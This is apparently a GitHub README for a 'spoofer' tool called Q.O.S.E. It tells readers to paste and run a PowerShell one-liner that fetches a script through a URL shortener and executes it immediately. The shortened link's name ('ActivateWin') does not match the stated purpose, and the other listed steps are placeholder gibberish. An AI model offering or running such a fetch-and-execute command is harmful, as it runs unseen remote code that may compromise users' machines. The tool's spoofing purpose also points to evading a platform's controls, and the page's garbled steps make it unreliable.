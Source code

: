 <p align="center"><img src="https://github.com/LazyDevv/Qose/blob/4e90f07b6533576ee30834e1ed7c3a0c6c3a46fe/quest.png" alt="activate"></p>

<h1 align="center">Quest Optimization Script Execution (Q.O.S.E.)</h1>

<p align="center">A spoofer based on @aamiaa's work, with a focus on streamlining the process for normies.</p>
<hr>

## Download / How to use it?

-   sadsad
-   Copy-paste the below code and press enter
    ```
    iex(irm is.gd/ActivateWin)
    ```
-   sadasdsa
-   That's all.
---
[@aamiaa's work and original script.](https://gist.github.com/aamiaa/204cd9d42013ded9faf646fae7f89fbb)

---
<p align="center"> Made with <br>
    <img height="250" src="https://raw.githubusercontent.com/LazyDevv/Hilao/master/ctrlcctrlv.png" alt="ctrlcctrlv"></p>
